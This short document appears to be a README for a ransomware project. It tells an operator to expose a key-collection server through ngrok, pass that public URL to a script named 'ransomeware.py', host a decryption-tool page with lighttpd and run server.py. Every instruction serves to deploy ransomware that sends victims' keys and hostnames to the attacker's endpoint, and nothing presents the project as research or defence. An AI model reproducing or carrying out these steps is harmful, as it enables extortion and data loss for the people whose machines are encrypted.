 # LISTEN. THIS SERVER WILL RUN 2 DIFFERENT SERVICES. 1 ON 80 TO SERVE THE DECRYPTION TOOL AND 1 ON 5000 TO GET THE KEY AND HOSTNAME. 

```
ngrok http 5000
```
Pass the URL to the Ransomware script like this.

```
python3 ransomeware.py <ur beautiful URL>
```
Then place the index.html at var/www/html/
```
cp index.html /var/www/html/index.html
```
Now you can start LightHTTPD on port 80 for this. /n
Then start the server.py.
```
python3 server.py
```

